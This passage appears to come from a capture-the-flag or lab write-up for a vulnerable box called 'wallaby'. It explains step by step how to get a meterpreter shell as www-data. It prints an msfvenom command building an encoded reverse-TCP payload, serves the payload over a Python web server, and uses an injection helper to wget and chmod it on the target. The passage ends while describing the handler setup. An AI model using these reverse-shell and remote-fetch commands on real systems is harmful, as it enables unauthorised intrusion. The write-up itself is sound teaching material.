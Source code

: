 
200
root@kali:~/wallaby# 
{{< / highlight >}}

## Getting a Meterpreter Shell

It was time to stop messing around and get into this thing, so here's a step by step of how to get a meterpreter shell on this box as the `www-data` user.

### First we make a payload

{{< highlight markdown >}}
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.167.130 LPORT=4444 -f elf -e x86/shikata_ga_nai -a x86 --platform linux -o revshell
{{< / highlight >}}

There's a lot going on there; what, exactly, is this command?

-p specifies the payload we are making a linux, x86 payload for a meterpreter reverse shell over tcp

LHOST, LPORT are variables for this payload (and standard for all metasploit) LHOST is the listen host LPORT is the listen port (atack box).

-f format is elf (linux binary)

-e encoder is x86/shikata_ga_nai - I believe it is the best choice for an encoder unless you have a good reason to use a different one or know more about encoders than me (not hard!)

"SteveyDevey" is multi-lingual, and passionate about languages; he pointed out that "Shikata ga nai" means "it can't be helped" in Japanese and is a commonly used to describe acceptance in the wake of things that are uncontrollable or unavoidable [https://en.wikipedia.org/wiki/Shikata_ga_nai](https://en.wikipedia.org/wiki/Shikata_ga_nai) 

-a arch is x86 (target)

--platform is linux (target)

-o <filename> (name of our payload file)

### Drop the Payload on the Target

After creating a payload, from the directory where your payload is, run

`python3 -m http.server 8000 &`

Next, fetch the payload from yourself, and chmod it to make executable.

{{< highlight markdown >}}
~/src/wallaby/pcurl.py -s -c 'wget 192.168.167.130:8000/revshell'
~/src/wallaby/pcurl.py -s -c 'chmod a+x revshell'
{{< / highlight >}}

### Start a local handler

For the next step, we use the exploit/multi/handler module. It is crucial to set the payload options to match _exactly_ what was generated with msfvenom. Then simply run via `run` or `exploit`
